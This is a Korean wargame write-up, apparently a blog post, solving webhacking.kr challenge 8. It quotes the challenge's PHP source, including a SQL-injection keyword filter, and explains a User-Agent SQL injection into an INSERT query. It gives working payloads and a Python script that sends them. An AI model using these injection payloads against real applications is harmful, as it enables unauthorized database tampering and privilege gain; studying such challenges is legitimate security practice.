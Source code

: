 ```yaml
---
title: "webhacking.kr 8번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[8번 바로가기](http://webhacking.kr/challenge/web/web-08/)

문제 페이지에 들어가면 아래와 같은 화면이 나온다. http 헤더의 user-agent를 조작하는 문제라는 느낌을 준다.

![11번](/img/8번_1.JPG)

새로 고침을 하면 done! 뒤의 숫자가 1 증가한다. 70번을 다 채우면 뭔가 있을 것 같다.
소스를 보면 index.phps에 들어가라는 힌트가 있다.


```php
$agent=getenv("HTTP_USER_AGENT");
$ip=$_SERVER[REMOTE_ADDR];

$agent=trim($agent);

$agent=str_replace(".","_",$agent);
$agent=str_replace("/","_",$agent);

$pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";

$agent=strtolower($agent);

if(preg_match($pat,$agent)) exit("Access Denied!");

$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
$_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);

$count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
if($count_ck[0]>=70) { @mysql_query("delete from lv0"); }


$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


}

if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}
```

http 헤더의 user-agent 필드에 있는 값에서 sqli에 사용되는 여러 문자를 필터링하고 쿼리를 수행한다.
먼저 lv0 테이블에서 id 컬럼에 값이 몇개 있는지 가져오는데, 이게 70개가 넘어가면 lv0 테이블을 비운다.
그리고 lv0 테이블에서 user-agent에 해당하는 레코드의 id 값을 가져온다. 여기서 첫번째 값이 "admin" 이면 문제가 풀린다.
그 밑에 보면 user-agent에 해당하는 값이 없으면 새로 입력하는데, 이때 user-agent에 넣은 값이 쿼리에 사용된다. user-agent에 쿼리를 넣어 문제 id에 admin을 삽입하면 된다.


일단 '$pat'에서 싱글쿼터를 필터링하지 않는다. select 문에서는 다시 `$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);`에서 싱글쿼터를 필터링하는데,
insert문에서는 `$agent`를 그대로 사용하기 때문에 싱글쿼터를 필터링하지 않는다.
`insert into lv0(agent,ip,id) values('$agent','$ip','guest');`에서 agent에 `hihi', '0', 'admin')#` 이런식으로 쿼리를 넣거나, `a1','i1','admin'), ('a2` 이렇게 주석을 사용 안하고
한 번에 여러 레코드를 삽입하는 쿼리를 만들면 된다.


```python
import urllib.request

agent1 = "hihi', '0', 'admin')#'"
agent2 = "hihi"
header = {'User-Agent':agent1, 'Cookie':'PHPSESSID=본인세션쿠키값'}

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)

header['User-Agent'] = agent2

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)
```

![8번](/img/8번_2.JPG)

